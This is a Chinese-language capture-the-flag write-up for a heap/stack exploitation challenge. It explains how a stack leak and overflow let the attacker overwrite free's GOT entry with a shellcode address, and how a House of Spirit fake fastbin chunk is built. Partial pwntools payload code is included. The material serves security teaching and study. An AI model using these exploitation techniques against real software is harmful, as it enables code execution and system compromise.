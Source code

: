 # 入手
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
```
各种保护都没开

#程序流程

## 1.输入name
```
for(int i=0;i<=47;i++)
    read(0,name,1);
```
但是这个时候栈是<br>
- i            low
- ret_val
- name_str
- rbp          high

如果把name_str填满 就能够在printf的时候打印出栈内保持的ebp 然后算出可以使用的栈地址<br>
## 2.输入id 
```
for(int i=0;i<=3;i++)
    read(0, buf_tmp, 1);
```
限制数字0-9 读入后转换为整数<br>
## 3."give me money~"
```
read(0,buf,0x40);
strcpy (buf_mal, buf);
```
buf_mal是malloc申请的(预计是堆溢出)<br>
然后由全局指针(ptr)来指向这个空间<br>
到这里乍一看好像没什么问题<br>
仔细一点就发现有栈溢出，可以覆盖buf_mal地址
```
buf= byte ptr -40h
dest= qword ptr -8
```
这里直接把堆的地址覆盖成got里free的地址<br>
然后strcpy的时候把free的地址改成shellcode的地址

## 4.分支选择

### choice 1:
限制在0,0x80<br>
ptr = malloc(0x80)<br>
ptr 指向输入的money<br>
上面可以看到之前申请的空间没有释放<br>
最后然后输出之前输入的内容<br>
### choice 2:
test ptr是不是0<br>
0 : 直接输出"havn't check in"然后返回<br>
1 : 释放ptr<br>

### choice 3:
直接返回<br>
### 其他
提示不合法<br>

# 突破点
在choice1 和 choice2那里<br>
开始ptr先有0x40的空间<br>

## 方法

## 1.就是利用strcpy修改got表中free的地址到shellcode地址
然后free
```
# 关键1
shellcode + 'A'*(0x30-len(shellcode))
# 关键2
payload = p64(stack_addr) + 'A'*0x30 + p64(free_got)
# 完成
p.recvuntil('choice : ')
p.send('2\n')
```
第一个就是泄露出栈内ebp的值 然后算出name_str的地址<br>
第二个就是把chunk地址覆盖成got表的free地址 然后利用strcpy把这个地址覆盖成刚刚活动的name_str地址(存放shellcode了) 然后调用free<br>

## 2.THE HOUSE OF SPIRIT
studying
需要构造合适的mem<br>
```
p.recvuntil('money~')
fake_chunk = 'A'*0x8
fake_chunk += p64(0x61)
fake_chunk += 'A'*0x28
fake_chunk += p64(stack_addr)
p.send(fake_chunk)
```
这里stack_addr调整到了刚刚好是0x61的后面的位置，所以0x61就作为这个mem的size了<br>
关于next_size 由于之前要求输入id 并且这个id值保存在比stack_addr指向的位置高的地方，所以0x61就是根据这个确定的(0x60+1 1是标志位)<br>
***next_size有约束条件***
```
if(chunk_at_offset(p, size)->size <= 2*SIZE_SZ || \
_builtin_expect(chunksize)(chunk_at_offset(p,size) >= av->system_mem,0))
{
    errstr = "free(): invalid next size fast";
    goto errout;
}
```
2*SIZE_SZ < next_size < system_max_mem
```
p.recvuntil('id ~~?')
p.sendline(str(0x20))
```

这样构造之后进行free就会让刚刚构造的mem加入fastbin中<br>
然后调用malloc就又把刚刚的mem中chunk的地址返回给我们，利用返回的值，然后覆盖到某个rsp，最后跳出循环，就能执行shell了。<br>

# Tips
1. 内存泄漏
2. 堆地址覆盖
3. 栈偏移固定
4. 利用了两个可控的位置作为size+8和next_size构造house of spirit

